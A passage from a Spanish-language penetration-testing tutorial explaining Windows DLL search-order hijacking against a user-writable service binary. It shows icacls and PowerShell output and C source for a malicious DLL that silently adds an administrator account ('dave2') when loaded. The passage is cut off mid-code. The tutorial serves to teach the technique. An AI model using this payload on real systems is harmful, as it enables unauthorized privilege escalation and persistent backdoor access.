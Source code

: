 Así, si fuéramos capaces de colocar una DLL en el mismo directorio en elque se ejecuta la aplicación, seríamos capaces de inducir al sistema a cargar código de una librería maliciosa en lugar de la original que se encontraría por ejemplo en el C:\\Windows directory y por tanto sería buscada más tarde.

Veamos con un ejemplo cómo aplica esto en un escenario del mundo real. 

En primer lugar, debemos identificar un binario, generalmente uno que no venga incluido en el sistema por defecto sino que esté instalado por algún usuario, por ejemplo:

```
PS C:\Users\steve> icacls .\Documents\BetaServ.exe
.\Documents\BetaServ.exe NT AUTHORITY\SYSTEM:(F)
                         BUILTIN\Administrators:(F)
                         CLIENTWK220\steve:(RX)
                         CLIENTWK220\offsec:(F)

Successfully processed 1 files; Failed processing 0 files
```

Ahora que hemos identificado un binario, deberíamos identificar el uso que el servicio hace de las librerías con una herramienta que se denomina Process Monitor. 

No podemos utilizar Process Monitor en el sistema objetivo porque para ello necesitaríamos de permisos elevados que es lo que estamos intentando obtener. Con lo que cogeríamos el binario BetaServ.exe y lo copiariamos sobre otra máquina bajo nuestro control y una vez en ella examinaríamos los DLLs que recoge con Process Monitor. 

Con Process Monitor filtraríamos los eventos mostrados sólo si están relacionados con BetaServ.exe y reiniciamos el servicio BetaService (que hemos configurado previamente) 

```
PS C:\Users\steve> Restart-Service BetaService
WARNING: Waiting for service 'BetaService (BetaService)' to start...
```

Cuando examinamos el output de process monitor vemos que se intenta abrir una DLL denominada myDLL.dll. Sabemos que si en una llamada el sistema no encuentra la librería en cuestión entonces recurre al esquema mencionado anteriormente para intentar abrir dicha librería, comenzando por el directorio en el que se encuentra el binario con el que se ejecuta el servicio y terminando con las localizaciones de la variable de entorno PATH.

Volviendo a la máquina objetivo, como nuestro binario se encuentra en C:\\Users\\Steve\\Documents, que es el usuario con el que tenemos acceso a la máquina, sabemos que busca una DLL denominada myDLL.dll y que el primer sitio en el que el sistema va a buscarla es en el mismo directorio en el que se encuentra el binario asociado al servicio. 

Así, construimos el siguiente código en C:

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
```